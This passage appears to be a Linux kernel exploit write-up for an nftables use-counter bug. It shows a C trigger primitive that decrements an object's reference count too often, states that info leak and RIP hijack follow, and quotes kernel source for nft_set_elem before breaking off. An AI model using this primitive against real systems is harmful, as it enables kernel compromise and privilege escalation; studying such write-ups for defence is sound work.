 After some attempts, I found that information leakage and RIP hijacking can be achieved through two structures in nftables.

I write a simple primitive to trigger the vulnerability (and you can find the primitive in exploit.c many times):

```
		new_set_hashtable(socket, SET_TABLE, tmp_set, NFT_OBJECT_CT_EXPECT, 8);
        new_setelem(socket, SET_TABLE, tmp_set, pad, 0x100, target_obj, NULL, 0, NULL, 0, 1);
        memset(msg_list, 0, sizeof(struct nlmsghdr *)*5);
        msg_list[0] = elem_flush_msg(SET_TABLE, tmp_set);
        msg_list[1] = del_set_msg(SET_TABLE, tmp_set);
        send_msg_list(socket, msg_list, 2);
```
The execution effect of the primitive is to realize `objcet->use--` because it will call `object->use++` once and `object->use--` twice.

### Leak info

Structure `nft_set_elem` is defined as follows:
```
struct nft_set_elem {
	union {
		u32		buf[NFT_DATA_VALUE_MAXLEN / sizeof(u32)];
		struct nft_data	val;
	} key;
	union {
		u32		buf[NFT_DATA_VALUE_MAXLEN / sizeof(u32)];
		struct nft_data	val;
	} key_end;
	union {
		u32		buf[NFT_DATA_VALUE_MAXLEN / sizeof(u32)];
		struct nft_data val;
	} data;
	void			*priv;
};
```
The `priv`  pointer is created by function nft_set_elem_init:

```
void *nft_set_elem_init(const struct nft_set *set,
			const struct nft_set_ext_tmpl *tmpl,
			const u32 *key, const u32 *key_end,
			const u32 *data, u64 timeout, u64 expiration, gfp_t gfp)
{
	struct nft_set_ext *ext;
	void *elem;

	elem = kzalloc(set->ops->elemsize + tmpl->len, gfp);
	if (elem == NULL)
		return ERR_PTR(-ENOMEM);

	ext = nft_set_elem_ext(set, elem);
	nft_set_ext_init(ext, tmpl);

	if (nft_set_ext_exists(ext, NFT_SET_EXT_KEY) &&
	    nft_set_ext_memcpy(tmpl, NFT_SET_EXT_KEY,
			       nft_set_ext_key(ext), key, set->klen) < 0)
		goto err_ext_check;

	if (nft_set_ext_exists(ext, NFT_SET_EXT_KEY_END) &&
	    nft_set_ext_memcpy(tmpl, NFT_SET_EXT_KEY_END,
			       nft_set_ext_key_end(ext), key_end, set->klen) < 0)
		goto err_ext_check;

	if (nft_set_ext_exists(ext, NFT_SET_EXT_DATA) &&
```